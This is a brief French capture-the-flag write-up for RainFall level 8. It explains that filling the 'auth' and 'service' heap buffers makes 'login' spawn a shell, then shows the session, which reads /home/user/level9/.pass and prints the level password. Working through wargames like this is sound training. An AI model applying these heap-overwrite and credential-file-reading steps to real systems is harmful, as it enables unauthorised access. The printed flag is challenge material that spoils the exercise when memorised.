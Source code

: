 # Level ouit

- Dans le code on comprends qu'il y a plusieurs commande pour assigner des strings a des variables 
```
commandes:
auth <str>
service <str>
reset
login
```
- On comprend aussi qu'un shell est lancer sous condition que *(auth +0x20) soit egale a zero
- Donc il suffit de remplir les variables auth et service pour etre sure que cette variable ne soit pas egale a 0
```
level8@RainFall:~$ ./level8
(nil), (nil) 
auth bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
0x804a018, (nil) 
service aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
0x804a018, 0x804a028 
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
